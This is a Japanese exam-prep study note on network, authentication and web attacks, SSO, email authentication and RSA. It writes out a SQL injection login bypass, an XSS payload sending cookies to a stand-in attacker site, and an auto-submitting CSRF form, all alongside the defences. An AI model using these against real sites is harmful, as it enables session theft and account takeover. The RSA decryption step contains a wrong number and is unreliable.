# セキュリティ関連

安全確保支援士 試験対策     

※ 実機確認していない記載も多く、他の記事よりさらに信憑性が低い点に注意。

## ネットワーク攻撃

### SYN Flood攻撃

SYN Flood(シン・フラッド)攻撃は、OSIモデルのトランスポート層を対象とするDoS（Denial of Service）攻撃の一種。

攻撃者は、ターゲットとなるサーバーのオープンポートに対して高速にTCP SYNリクエストを送るが、TCPハンドシェイクプロセスを完了しない。     
これにより、サーバーのリソースが過負荷となり、正当な接続要求を処理できなくなる。

一般的なSYN Flood攻撃では、攻撃者は送信元IPアドレスを偽装する。     
そのため、サーバーからのSYN-ACKパケットは、通常攻撃者には届かず、代わりに偽装されたIPアドレスに送られる。



### Smurf攻撃

Smurf(スマーフ)攻撃は、ICMPのエコーメカニズムを悪用して被害者のネットワークを氾濫させる、分散型サービス拒否（DDoS）攻撃の一種。   

攻撃者は、対象となる被害者の偽装されたIPアドレスを使用して、ネットワークのブロードキャストアドレスにICMPエコーリクエストを送信する。    
その結果、ネットワーク上のすべてのデバイスがエコーリクエストに対してエコーリプライを送り、被害者のネットワークが氾濫する。




### UDP Flood攻撃

UDP Flood攻撃では、攻撃者が大量のUser Datagram Protocol（UDP）パケットをターゲットのサーバーに送信し、そのリソースを圧倒して応答不能にさせます。目的は、サーバーの処理能力またはネットワーク帯域幅を使い果たし、正当なトラフィックを処理できなくすることです。




### EDos攻撃

従量課金制であるクラウド自体の攻撃。    
サーバー停止ではなく、通信料による経済損失を目的とする。

対処:
AWS Shieldなどを契約

## 認証攻撃

### ブルートフォース攻撃(総当たり)

正しいパスワードが見つかるまで、可能な文字のすべての組み合わせを試す。    
時間がかかるが、十分な時間があれば最終的に正しいパスワードを見つけだす。

### 辞書攻撃

攻撃者が予め用意した単語のリスト（多くの場合、実際の単語や一般的に使用されるパスワード）を入力に使用する。

### リスト攻撃

辞書攻撃に似ているが、使用されるリストは攻撃対象者の以前に漏れたデータに基づく(他のサイトのIDとパスワードとの組み合わせなど)。    
一般的な辞書攻撃よりも対象指向で、通常は効果的。

### スプレー攻撃(low-and-slow攻撃)

一定期間に一定の回数のログインエラーが起こると、アカウントが一定時間ロックされる仕組みを回避する攻撃。

- 少数のパスワードで、複数の利用者IDに同時攻撃
- 攻撃元のIPアドレスを複数用意する
- ログインできなければ一定の間隔を置いて再試行する

## SQLインジェクション

以下のようなusersテーブルとコードでの例。

| username | password |
| -------- | -------- |
| admin    | P@ssw0rd |

### 攻撃例

```py
import sqlite3

# SQLiteデータベースに接続
conn = sqlite3.connect('example.db')

# ユーザーログインを確認する関数
def check_login(username, password):
    cursor = conn.cursor()

    # SQL文を作製
    query = "SELECT * FROM users WHERE username = '" + username + "' AND password = '" + password + "';"
    print(query)
    cursor.execute(query)

    # 該当レコードがあればログイン成功
    result = cursor.fetchone()
    if result:
        return "Login successful!"
    else:
        return "Login failed!"

# 関数を実行
print(check_login("USERNAME", "PASSWORD"))
```

想定された動作は以下
```py
# 生成されるSQL: SELECT * FROM users WHERE username = 'admin' AND password = 'P@ssw0rd';
# 該当レコードがあるので"Login successful!"
print(check_login("admin", "P@ssw0rd"))

# 生成されるSQL: SELECT * FROM users WHERE username = 'admin' AND password = 'hoge';
# 該当レコードがないので"Login failed!"
print(check_login("admin", "hoge"))
```

以下のようにすることで、admin もしくは... というレコードがselectされるので、どのようなパスワードでも"Login successful!"となる。
```py
# 生成されるSQL: SELECT * FROM users WHERE username = 'admin' OR '1'='1' AND password = 'any_pass';
# adminであればパスワードがなんでも該当するので "Login successful!"
print(check_login("admin' OR '1'='1", "any_pass"))
```

### 対策: プレースホルダを使用

プレースホルダは、SQLクエリ内で後から安全にデータを挿入できるような空のスロットのようなもの。       
プレースホルダを使用することで、データベースエンジンが受信データを値として扱い、実行可能なコードとして扱わないようにする。      
これで、文字列を直接連結する場合に発生するSQLインジェクションを防ぐ。

```py
import sqlite3

# SQLiteデータベースに接続
conn = sqlite3.connect('example.db')

# ユーザーログインを確認する関数
def check_login(username, password):
    cursor = conn.cursor()

    # プレースホルダを使用してSQLクエリを作成
    query = "SELECT * FROM users WHERE username = ? AND password = ?"
    cursor.execute(query, (username, password))
    print(query)

    # 該当レコードがあればログイン成功
    result = cursor.fetchone()
    if result:
        return "Login successful!"
    else:
        return "Login failed!"

# 関数を実行
print(check_login("USERNAME", "PASSWORD"))
```

## XSS(クロスサイトスクリプティング)

Webアプリケーションが、データを適切な検証やエスケープなしに新しいWebページに組み込むことで発生するWebセキュリティの脆弱性の一種。      
攻撃の対象は、脆弱なwebサイトそのものではなく、それを利用するユーザー。

↓

例えば、入力欄に`<script>alert(0)</script>`と入力して送信ボタンを押下すると、   
`https://脆弱なサイト.com/?param=<script>alert(0)</script>`に移行し、    
JavaScriptコードがそのまま実行されされてしまうようなサイト      
(この場合ブラウザでアラートが出る)

この脆弱性により、攻撃者はユーザーのブラウザーのコンテキストで悪意のあるスクリプトを実行でき、さまざまな形でデータ盗難やアカウントの乗っ取りが可能になる。

具体例:

- `<script>alert(document.cookie)</script>` にすると、alertにcookieが表示される(セッション情報があればそれも表示)
- `<script>window.location='https://攻撃者のサイト.com/?'.concat(document.cookie)</script>`とすると、`https://攻撃者のサイト.com/?cookie情報`に移行する。
 
⇒ GETリクエストを送るので、攻撃者はcookie情報が取得できる。

1. 攻撃者が被害者に悪意のあるリンク（`https://脆弱なサイト.com/?param=<script>window.location='https://攻撃者のサイト.com/?'.concat(document.cookie)</script>`など）をクリックさせる(攻撃者のwebサイト、メールなど)。
2. 被害者はリンクをクリックし、脆弱なウェブサイトに移動する。
3. ウェブサイトは`param`パラメータをサニタイズしないため、
4. 悪意のあるスクリプトが被害者のブラウザで実行。
5. 被害者は、意図せずに機密情報（例えば、クッキー）を攻撃者に送信する。




※ サニタイズ（Sanitization）

セキュリティの文脈では、ユーザー入力をクリーニングまたはフィルタリングして、悪意のあるコードが実行されるのを防ぐプロセスを指す。    
例えば、< や > といった文字は、それぞれ &lt; や &gt; に変換されることで、HTMLタグとして解釈されるのを防ぎ、XSS（クロスサイトスクリプティング）攻撃のリスクを軽減する。

[XSSとセッションハイジャックを実際にやってみた【セキュリティ】 - YouTube](https://www.youtube.com/watch?v=IGWKIRamjs0)

## CSRF(クロスサイトリクエストフォージェリ)

Forgery = 偽造

被害者が意図しない行動をとるように仕向けるWebセキュリティの脆弱性の一種。   
XSSが被害者を対象とするのに対し、CSRFはウェブサイトがユーザーのブラウザに対して持つ信頼を悪用する。

一般的な動作：

1. 被害者が`https://example.com`などのウェブサイトにログインし、そのウェブサイトが被害者のブラウザにセッションクッキーを保存します。
2. 攻撃者は被害者に悪意のあるリンクをクリックさせたり、悪意のあるページを読み込ませます。
3. この悪意のあるリンクは、``のような形になります。攻撃者はこのリンクをウェブサイトやメールに埋め込みます。
4. 被害者は既に`https://example.com`で認証済みなので、悪意のあるリクエストが更なる認証なしに処理され、意図しない行動（例：アカウントの削除）が実行されます。

前提条件：

- 被害者は対象とするサイトに認証済みで、アクティブなセッションを持っている必要があります。
- 対象とするサイトは、CSRFトークンなどの適切な対策を講じていない必要があります。

サンプル：

```html
<!DOCTYPE html>
<html>
<head>
  <title>CSRF攻撃ページ</title>
</head>
<body>
  <h1>これは無害そうなページです</h1>
  <!-- 隠れたフォーム -->
  <form id="csrf-form" action="https://example.com/changeEmail" method="POST" style="display: none;">
    <input type="hidden" name="newEmail" value="attacker@example.com">
  </form>
  <script>
    // フォームを自動的に送信する
    document.getElementById("csrf-form").submit();
  </script>
</body>
</html>
```

1. 被害者はすでに`https://example.com`にログインしています。
2. 被害者はフィッシングメールなどの手段で`https://attackers-site.com/csrf-attack-page.html`にアクセスします。
3. 悪意のあるページには、`https://example.com/changeEmail`を対象とする隠れたフォームがあります。
4. JavaScriptのスニペットがページが読み込まれるとすぐにフォームを自動的に送信します。
5. 被害者はすでに`https://example.com`で認証されているため、フォームの送信が成功し、被害者のメールアドレスが`attacker@example.com`に変更されます。


## 防御の仕組み

### 侵入検出システム（IDS

侵入検出システム（Intrusion Detection System）は、ネットワークやシステムでの悪意のある活動やセキュリティポリシー違反を監視するデバイスまたはソフトウェアアプリケーションです。IDSにはさまざまな形態があり、その中でも最も一般的なのがネットワーク侵入検出システム（NIDS）とホストベースの侵入検出システム（HIDS）です。

1. **NIDS（ネットワーク侵入検出システム）**:  
NIDSは、ネットワーク全体の通信を監視し分析するよう設計されています。通常、ネットワークのチョークポイントやファイアウォールの近くなど、戦略的な位置に配置されます。NIDSは、ネットワークを通過するデータパケットを分析することで悪意のある活動を検出します。シグネチャベース、異常ベース、ヒューリスティックベースの検出方法が一般的です。

2. **HIDS（ホストベースの侵入検出システム）**:  
一方、HIDSはネットワーク内の個々のホストやデバイスにインストールされます。これらのシステムは、システムコール、アプリケーションログ、ファイルシステムの変更など、システムの内部動作に焦点を当てて監視します。HIDSは、インサイダーの脅威や、ネットワークのセキュリティ対策を回避した攻撃を検出するのに特に有用です。

NIDSはネットワーク活動の広い範囲を提供できる一方で、ホスト固有の脆弱性を見逃す可能性があります。    
HIDSは特定のシステムのより細かい詳細に焦点を当てることができますが、大規模なネットワークのパターンを捉えられないかもしれません。    
より包括的なセキュリティカバレッジのために、しばしば両方の組み合わせが使用されます。

## 暗号化技術

### 署名

データの真正性と完全性を保証する。      
単に「署名の仕組み」という文脈では「文書」は暗号化されないみたい(あってる?)




## シングルサインオン(SSO)

### 認証と認可

改めて定義を確認。

- **認証（Authentication）**: ユーザー、システム、またはアプリケーションの身元を確認するプロセス。このプロセスは「あなたは本当に主張している人物ですか？」という疑問に答える。

- **認可（Authorization）**: ユーザー、システム、またはアプリケーションが許可されていることを確認するプロセス。このプロセスは「あなたがしようとしていることは許可されていますか？」という疑問に答える。


### エージェント方式

各アプリケーションサーバーにエージェントをインストールする方式。    
初回ログイン時、サーバーからトークンが発行されて、以降はcookie確認される。
各認証はエージェントが対応する。


### 代理認証方式

クライアントPCにインストールしたエージェントがIDやパスワードを保持。
ログイン画面に移動した際、エーヘントが認証情報を入力する。

### リバースプロキシ方式

アプリケーションサーバ群の前にリバプロを据え、ここで認証を行う。
アクセス集中するので冗長化などが必要。

### 認証連携方式

ID発行者とサービス提供者との間で、利用者の認証情報をやり取り。別々の組織が互いの認証システムを信頼するように設定する。  
SAMLを使って認証連携を行う場合が多い。他、OpenID、OpenID Connectなど。    
GoogleやFacebookのログインサービスは、OpenID Connectを使用し、既存のアカウントを複数のサービスで使用することを可能にしている。

### SAML (Security Assertion Markup Language)

- SP(サービスプロバイダー): サービスを提供
- IdP(Identity Provider): 認証を提供
  
★ SPにパスワードを入力しないのがポイント



### OAuth

★ ユーザーの許可に基づいて、リソースサーバへのアクセス権を、別のサーバ(ここではOAuthクライアント)に渡す事が出来る仕組み。

例：SpotifyとFacebook

- **Spotify（クライアント）**は、あなたが聞いている内容を**Facebook（リソースサーバー）**のフィードに投稿したい。
- **Facebook（認可サーバー）**は、あなたを認証し、Spotifyがこれを行うことを許可するかどうかを尋ねます。

OAuth（オープンオーソリゼーション）は、トークンベースの認証に一般に使用されるアクセス委任のためのオープン標準です。OAuthにより、Facebookなどのサードパーティサービスが、ユーザーのパスワードを公開することなく、エンドユーザーのアカウント情報を使用できます。

以下は、OAuth 2.0認証フローを説明するためにmermaidで作成した簡略化されたフローチャートです：



- **ユーザー**: 保護されたリソースにアクセスしたいエンドユーザー。
- **クライアント**: ユーザーのアカウントにアクセスしたいアプリケーション。
- **認可サーバー**: ユーザーを認証し、アクセストークンを発行するサーバー。
- **リソースサーバー**: 保護されたリソースをホスティングするサーバー。


この例でのOAuthの利点：

1. **セキュリティ**: FacebookのパスワードをSpotifyに提供する必要がありません。
2. **細かい権限**: SpotifyがFacebookデータに対してどのレベルのアクセスを持つかを指定できます。
3. **使いやすさ**: Facebookの資格情報を使用してSpotifyにすばやくログインできます。
4. **取り消し可能**: この許可は、いつでもFacebookの設定から取り消すことができます。


PKCEの流れに合わせて、code_verifier の生成と、code_challenge の作成・送信の部分を追加した図




## Mail


### SPF(Sender Policy Framework)

受信メールサーバーが、受信したメールのドメインの正当性を確認する仕組み。    
送信元IPアドレスと、送信元ドメインのDNSレコードに登録されているIPを比較する。



## 暗号化

### 前方秘匿性

秘密鍵などの秘密情報が漏洩しても、過去の暗号文は復号できないという性質。

- データを暗号化する鍵から別の鍵を生成しない
- 鍵生成の元になるデータには一度限りの使い捨てのデータも含める

### RSA暗号

通常は巨大な素数を使用するが、わかりにくいので小さい素数を使用した具体例。  
平文 12 (10進数) を暗号化する。

**キー生成:**

   - 異なる素数 p = 17 と q = 19 を選ぶ。
   - n = p x q = 17 x 19 = 323 を計算する。これは公開鍵と秘密鍵の両方の一部で、暗号化と復号化の両方に使用される。
   - φ(n) = (p-1) x (q-1) = 16 x 18 = 288 を計算する。公開指数と秘密指数を作成するのに使用。
   - 1 < e < φ(n) かつ gcd(e, φ(n)) = 1 になるように公開指数 e を選ぶ。(このケースでは e = 5)
   - d x e ≡ 1 mod φ(n) となる 秘密指数 d を計算する。(このケースでは d = 173)

   **公開鍵**: (e, n) = (5, 323)  
   **秘密鍵**: (d, n) = (173, 323)

**暗号化:**

   - 平文 m = **12** 
   - 暗号文 c = m^e mod n = 12^5 mod 323 = **122**

**復号化:**

   - 暗号文 c = **122**
   - 復号されたテキスト m = c^d mod n = 248^{173} mod 323 = **12** として計算されます。


